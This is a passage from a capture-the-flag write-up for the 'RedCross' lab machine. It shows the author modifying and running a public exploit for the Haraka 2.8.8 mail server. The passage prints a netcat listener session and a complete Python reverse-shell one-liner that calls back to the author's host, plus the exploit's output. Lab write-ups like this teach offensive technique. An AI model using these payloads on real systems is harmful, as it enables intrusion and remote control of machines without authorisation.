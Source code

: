 1025 looks interesting but we can't connect to it with telnet:

```console
root@ragingunicorn:~# telnet 10.10.10.113 25
Trying 10.10.10.113...
telnet: Unable to connect to remote host: Connection refused
```

We can connect locally though:

```console
root@ragingunicorn:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.113] 52064
/bin/sh: 0: can't access tty; job control turned off
$ telnet 127.0.0.1 1025
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 redcross ESMTP Haraka 2.8.8 ready
quit
```

The exploit needs to be modified slightly because the port is hardcoded and needs to be changed to 1025.

Line 123 needs to be changed to the following:

```python
...
s = smtplib.SMTP(mailserver,1025)
...
```

We can use vi to create the exploit .py file in /dev/shm, then execute it to spawn a reverse shell:

Note: The email address must contain the `redcross.htb` domain.

```console
www-data@redcross:/dev/shm$ ./h.py -c "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" -t penelope@redcross.htb -f penelope@redcross.htb -m redcross
htb -m redcrossn/sh\",\"-i\"]);'" -t penelope@redcross.htb -f penelope@redcross.h
##     ##    ###    ########     ###    ##    ## #### ########  #### 
##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##  
##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##  
######### ##     ## ########  ##     ## #####     ##  ########   ##  
##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##  
##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##  
##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## #### 
                                                 
-o- by Xychix, 26 January 2017 ---
-o- xychix [at] hotmail.com ---
-o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --

-i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

Send harariki to penelope@redcross.htb, attachment saved as harakiri-20181111-152151.zip, commandline: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' , mailserver redcross is used for delivery
Content-Type: multipart/mixed; boundary="===============2632093882109835759=="
MIME-Version: 1.0
Subject: harakiri
From: penelope@redcross.htb
To: penelope@redcross.htb

--===============2632093882109835759==
```